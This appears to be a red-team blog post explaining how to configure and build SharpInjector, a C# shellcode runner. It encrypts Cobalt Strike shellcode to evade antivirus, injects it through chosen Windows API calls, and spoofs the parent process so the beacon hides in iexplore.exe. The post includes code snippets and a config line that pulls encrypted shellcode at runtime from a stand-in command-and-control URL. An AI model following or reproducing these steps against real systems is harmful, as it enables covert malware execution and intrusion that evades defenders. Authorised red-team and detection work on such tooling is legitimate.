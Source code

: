 ```yaml
---
layout: post
title: SharpInjector
subtitle: Experimenting with a shellcode runner
thumbnail-img: /assets/projects/sharpinjector/thumb.png
share-img: /assets/projects/sharpinjector/thumb.png
tags: [c#, shellcode runner, sharpinjector]
---
```


Since AV evasion has become more difficult over time, I've had to turn to more mature payloads and shellcode runners. Gone are the days of initial access through click-to-generate payloads like Cobalt Strike's HTA. Some of the more customized and advanced runners I've had success with are FireEye's [DueDlligence](https://github.com/fireeye/DueDLLigence), [D00mFist's](https://twitter.com/_D00mfist) [Go4aRun](https://github.com/D00MFist/Go4aRun) and [djhohnstein's](https://twitter.com/djhohnstein) [scatterbrain](https://github.com/djhohnstein/ScatterBrain). 

The SharpInjector project is my inital attempt at writing a custom shellcode runner in the same vein as those projects (lots of inspiration drawn from them, as well as this [DEFCON workshop](https://github.com/mvelazc0/defcon27_csharp_workshop) for help learning parent process ID spoofing). Below is a quick run through of setup/usage, highlighting some of the customization options along the way.

The code repository can be found [here](https://github.com/tw1sm/SharpInjector).

# Prepping the Shellcode
The final SharpInjector payload will contain encrypted shellcode, decrypt it and perform the injection. So we'll need to get some encrypted shellcode into the solution to start.

Generate your shellocde - I'll do this in Cobalt Strike: *Attacks > Packages > Windows Executable (S)*
![Generate Shellcode](/assets/projects/sharpinjector/shellcode.png){: .mx-auto.d-block :}

Clone the project and transfer your `.bin` file over the the system you're generating the payload on.
~~~
git clone https://github.com/tw1sm/SharpInjector.git
~~~

Open up the `ScEncryptor` project and edit `Program.cs`. On line 34, edit the encryption key variable:
```csharp
public static string Enc(string data)
        {
            string enc = "";
            string key = "01010101010101010101010101010101"; // CHANGE THIS TO A 16/24/32 BYTE VALUE
```

Build the `ScEncryptor` project.

Run `ScEncryptor.exe` and supply the path of your shellcode .bin as the sole argument:
![Encrypt Shellcode](/assets/projects/sharpinjector/scencryptor.png){: .mx-auto.d-block :}

Your shellcode will be encrypted, then base64 encoded and the resulting string will automatically be placed into the `SharpInjector` project in `Shellycode.cs`:
```csharp
namespace SharpInjector
{
	class EncryptedShellcode
    {
		public string EncSc = "Od/HuzTqISDnPNtgmoUZ2c8" //SNIPPED
    }
}
```

You can choose to leave the encrypted shellcode within this file and contiune customizing the project. However, if you don't want to include the shellcode string in the final binary, you can copy the base64 string out of `Shellycode.cs` and host a file with the string on the web. If the `EncSc` var is set to an empty string, your shellcode will be downloaded from a supplied URL at runtime:
```csharp
namespace SharpInjector
{
	class EncryptedShellcode
    {
		public string EncSc = "" //Has to be blank for download to run
    }
}
```

This not only has the benefit of excluding the encrypted shellcode from your binary, but it also offers you a sort of "killswitch" for the payload. If you stop hosting your shellcode file at any point, your payload will become a dud. Conversely though, your payload will now be reaching out to the internet, so consider what is best for your situation.

# Building the Payload
The shellcode is ready, let's cutomize the actual payload and build it.

Set the decryption key on line 103 within `Program.cs` in the `SharpInjector` project to match your encryption key set in the `ScEncryptor` project.
```csharp
// Decryptor func
public static string Dec(string ciphertext)
{
    string key = "01010101010101010101010101010101"; // CHANGE THIS 16/24/32 BYTE VALUE TO MATCH ENCRYPTION KEY
```

Still within `Program.cs`, on line 22 set your preferred Windows API call used to execute the shellcode. This is very similar to how `DueDlligence` offers several execution options - I've just expanded on the available options to practice importing API calls in C#.
```csharp
const ExecutionMethod exeMethod = ExecutionMethod.RtlCreateUserThread; // CHANGE THIS; shellcode exectuon method
```

On lines 24 and 25, set the parent process ID spoofing configs. Line 24 sets the parent process that a child will be spawned from. `explorer.exe` is a good target for this. On line 25, the `ProgramPath` variable specifies the child process to launch - this is the process your beacon/shell will live in.
```csharp
string ParentName = "explorer"; // CHANGE THIS: name of parent process
string ProgramPath = @"C:\Program Files\Internet Explorer\iexplore.exe"; // CHANGE THIS: path to process shellcode will be injected into
```

Lastly, if you've chosen to host your shellcode on the web for download, set the `ShellcodeUrl` variable on line 26. I'm leaving it blank (shellcode included in the binary) for this test, but an example would look like:
```csharp
string ShellcodeUrl = "https://seetwo-domain.com/shellcodefile"; // CHANGE THIS; URL of encrypted shellcode if downloading from web
```

Set your build configuration to `x64` and build the payload.

# Testing Execution
I've got the resutling `SharpInjector.exe` on my target system where I'll execute it:
![SharpInjector Execution](/assets/projects/sharpinjector/execute.png){: .mx-auto.d-block :}

And the Cobalt Strike shell caught:
![Shell](/assets/projects/sharpinjector/shell.png){: .mx-auto.d-block :}

Just to double check how this looks in ProcessExplorer, we can see the HTTPS beacon living in `iexplore.exe`, which does appear spoofed as a child of our chosen parent, `explorer.exe`.
![Shell](/assets/projects/sharpinjector/procexp.png){: .mx-auto.d-block :}